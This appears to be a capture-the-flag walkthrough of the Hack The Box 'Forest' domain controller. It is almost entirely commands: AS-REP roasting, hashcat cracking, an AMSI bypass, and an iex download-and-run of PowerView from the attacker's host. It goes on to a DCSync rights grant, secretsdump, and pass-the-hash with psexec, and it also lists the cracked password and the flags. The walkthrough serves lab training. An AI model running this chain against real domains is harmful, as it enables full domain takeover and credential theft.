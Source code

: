 ping 10.10.10.161

whatweb 10.10.10.161
namp -sCV -O 10.10.10.161 -> get doamin: htb.local

rpcclient -U "" -N 10.10.10.161
enumdomusers
enumdomgroups

nano user.txt -> type each user name

for user in $(cat user.txt); do impacket-GetNPUsers -no-pass htb.local/${user} -dc-ip forest.htb | grep -v Impacket; done;

cat hash.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:54b1050c17868f2d0cd33eb2f6b97175$5ce600e3e851bfceb3252838f9b7e0e9a4a6f996bdb46467beef7e73956d8681f7e917e56c27994e792d8043148967961e0e872229e827ab6bed15c3e13dbb0910c949a22adcd7dc40347b516860b6f51a20262ee547670ff26afd56dbdeda28d2cc5c34d26855a5bb409cb24ded71026133ca2843140d35587f568303681d10970ab1f628d6a5ed907bba294772e50f637357b25a33517bc970246107184cfc0b91b9b1e0a4058761550246dfb04b01cdfb34ea827f64e2dc9cda3b1661fc34ae58dd77601b7f9e0a77dadd23d6691b499948f93112b1dfd11fe825f0abc100d46c1602f90f

hashcat -m 18200 svc-alfresco_pass.txt '/root/Downloads/rockyou.txt'
hashcat -m 18200 svc-alfresco_pass.txt '/root/Downloads/rockyou.txt' --show
svc-alfresco:s3rvice

evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
cd
more user.txt -> get flag (5f7aad3b7ed3a24d0f328fba158c8667)

net user john abc123! /add /domain
net group "Exchange Windows Permissions" john /add
net localgroup "Remote Management Users" john /add

menu
Bypass-4MSI

iex (new-object net.webclient).downloadstring('http://<kali ip>/PowerView.ps1')

$pass = convertto-securestring 'acb123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

impacket-secretsdump htb/john@forest.htb -> get Administrator hash

psyexec.py administrator@forest.htb - hashes <hash found>
cd ..
cd ..
cd Users/Administrator/Desktop
more root.txt -> get flag (9ec412e49ff26ecf7797c30654a85ced)